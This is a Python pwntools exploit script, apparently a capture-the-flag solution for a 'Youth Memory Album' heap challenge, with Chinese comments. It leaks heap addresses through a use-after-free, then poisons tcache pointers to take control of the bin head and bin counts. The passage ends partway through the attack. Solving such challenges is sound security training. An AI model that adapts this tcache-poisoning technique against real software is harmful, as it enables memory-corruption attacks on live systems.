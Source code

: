 ```py
def edit(index: int, memory: bytes) -> None:
	p.sendlineafter(b'Your choice:', b'2')
	p.sendlineafter(b'Album entry number to edit:', str(index).encode())
	p.sendlineafter(b'Edit your memory:', memory)
	
def view(index: int) -> bytes:
	p.sendlineafter(b'Your choice:', b'3')
	p.sendlineafter(b'Album entry number to view:', str(index).encode())
	p.recvuntil(b'Memory content:')
	return p.recvuntil(b'========== Youth Memory Album ==========').strip(b'========== Youth Memory Album ==========')

def delete(index: int) -> None:
	p.sendlineafter(b'Your choice:', b'4')
	p.sendlineafter(b'Album entry number to delete:', str(index).encode())

input_name(b'leeya_bug')

# 获取 tcachebin 堆地址和 bin size 地址
add(1, b'nothing')
add(2, b'nothing')
delete(1)
delete(2)

chunk_1_addr = u64_(view(2).ljust(8,b'\x00')) - 0x10
chunk_2_addr = chunk_1_addr + 0x40
chunk_fake_addr = chunk_2_addr + 0x10
chunk_name_addr = chunk_1_addr - 0x310

print(f'chunk_name_addr:      {hex(chunk_name_addr)} ')
print(f'chunk_1_addr:         {hex(chunk_1_addr)} ')
print(f'chunk_2_addr:         {hex(chunk_2_addr)} ')
print(f'chunk_fake_addr:      {hex(chunk_fake_addr)} ')

edit(2, b'a' * 8)

bin_base = u64_(b'\x10' + view(2).strip(b'a' * 8)[1:]) - 0x10
size40_addr = bin_base + 0x10
size40_head_addr = bin_base + 0xa0
size300_addr = bin_base + 0x68
print(f'size40_addr:          {hex(size40_addr)} ')
print(f'size40_head_addr:     {hex(size40_head_addr)} ')
print(f'size300_addr:         {hex(size300_addr)} ')

# alloc 一个 chunk 到 0x40 bin head，控制 bin head
edit(2, p64(size40_head_addr) + p64(size40_addr))
add(3, b'nothing here')
add(4, b'nothing here')	# size40_head_addr
delete(3)

def edit_head(addr: int):
	edit(4, p64(addr))

# alloc 一个 chunk 到 0x40 bin size，控制 bin size
edit_head(size40_addr)
add(5, p32(0) + p32(4))

def edit_size(size: int):
	edit(5, p32(0) + p32(size))

edit_size(4)
edit_head(size300_addr - 0x8)
# 修改 unsortedbin size 为 7
```